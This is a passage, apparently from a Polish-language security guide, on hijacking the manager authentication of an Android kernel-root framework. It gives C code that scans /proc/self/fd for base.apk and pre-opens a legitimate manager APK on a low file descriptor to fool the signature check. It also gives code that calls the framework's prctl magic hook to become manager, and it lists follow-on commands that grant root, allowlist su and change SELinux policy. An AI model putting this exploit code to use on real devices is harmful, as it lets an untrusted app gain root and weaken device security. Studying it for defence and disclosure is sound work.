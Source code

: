 Enumerate open FDs to locate base.apk entries:
```c
#include <dirent.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int find_first_baseapk_fd(char out_path[PATH_MAX]) {
DIR *d = opendir("/proc/self/fd");
if (!d) return -1;
struct dirent *e; char link[PATH_MAX]; char p[PATH_MAX];
int best_fd = -1;
while ((e = readdir(d))) {
if (e->d_name[0] == '.') continue;
int fd = atoi(e->d_name);
snprintf(link, sizeof(link), "/proc/self/fd/%d", fd);
ssize_t n = readlink(link, p, sizeof(p)-1);
if (n <= 0) continue; p[n] = '\0';
if (strstr(p, "/data/app/") && strstr(p, "/base.apk")) {
if (best_fd < 0 || fd < best_fd) {
best_fd = fd; strncpy(out_path, p, PATH_MAX);
}
}
}
closedir(d);
return best_fd; // First (lowest) matching fd
}
```
Wymuś, aby niższy numer FD wskazywał na legalny APK menedżera:
```c
#include <fcntl.h>
#include <unistd.h>

void preopen_legit_manager_lowfd(const char *legit_apk_path) {
// Reuse stdin (fd 0) if possible so the next open() returns 0
close(0);
int fd = open(legit_apk_path, O_RDONLY);
(void)fd; // fd should now be 0 if available
}
```
Zarządzanie uwierzytelnianiem za pomocą hooka prctl:
```c
#include <sys/prctl.h>
#include <stdint.h>

#define KSU_MAGIC          0xDEADBEEF
#define CMD_BECOME_MANAGER 0x100  // Placeholder; command IDs are framework-specific

static inline long ksu_call(unsigned long cmd, unsigned long arg2,
unsigned long arg3, unsigned long arg4) {
return prctl(KSU_MAGIC, cmd, arg2, arg3, arg4);
}

int become_manager(const char *my_data_dir) {
long result = -1;
// arg2: command, arg3: pointer to data path (userspace->kernel copy), arg4: optional result ptr
result = ksu_call(CMD_BECOME_MANAGER, (unsigned long)my_data_dir, 0, 0);
return (int)result;
}
```
Po sukcesie, polecenia z uprawnieniami (przykłady):
- CMD_GRANT_ROOT: promuj bieżący proces do roota
- CMD_ALLOW_SU: dodaj swój pakiet/UID do listy dozwolonych dla trwałego su
- CMD_SET_SEPOLICY: dostosuj politykę SELinux zgodnie z obsługą przez framework
